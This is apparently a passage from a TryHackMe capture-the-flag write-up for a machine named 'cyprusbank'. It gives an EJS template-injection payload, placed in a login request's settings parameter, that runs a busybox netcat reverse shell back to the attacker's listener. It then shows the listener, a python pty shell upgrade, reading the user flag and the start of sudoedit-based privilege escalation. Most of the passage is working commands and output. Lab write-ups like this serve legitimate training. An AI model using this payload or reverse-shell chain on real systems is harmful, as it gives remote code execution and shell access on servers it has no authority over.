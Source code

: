 ## Capture the request and edit it and send:
```
name=a&password=a&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('busybox nc 10.17.11.253 1234 -e bash');s
```
![image](https://github.com/user-attachments/assets/67462093-635d-4ae6-936e-1d9111a282f8)

## Open Nc to get reverse connection.
```
nc -lnvp 1234
```

![image](https://github.com/user-attachments/assets/f4e563d5-8730-44fc-a442-f71a06c6508e)

## We got our connection let import shell:
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
```
$ nc -lnvp 1234
Listening on 0.0.0.0 1234
Connection received on 10.10.200.189 56326
python3 -c 'import pty;pty.spawn("/bin/bash")'
web@cyprusbank:~/app$ 
```
## User Flag
```
cat /home/web/user.txt
```

```
THM{4lw_____!3s}
```
# Privilege Escalation
```
web@cyprusbank:~$ sudo -l
sudo -l
Matching Defaults entries for web on cyprusbank:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
web@cyprusbank:~$
```
```
export TERM=xterm
```
```
web@cyprusbank:~/app$ export TERM=xterm
export TERM=xterm
web@cyprusbank:~/app$ ^Z
[1]+  Stopped                 nc -lnvp 1234
death@esther:~$ stty raw -echo; fg
nc -lnvp 1234

web@cyprusbank:~/app$ 
```

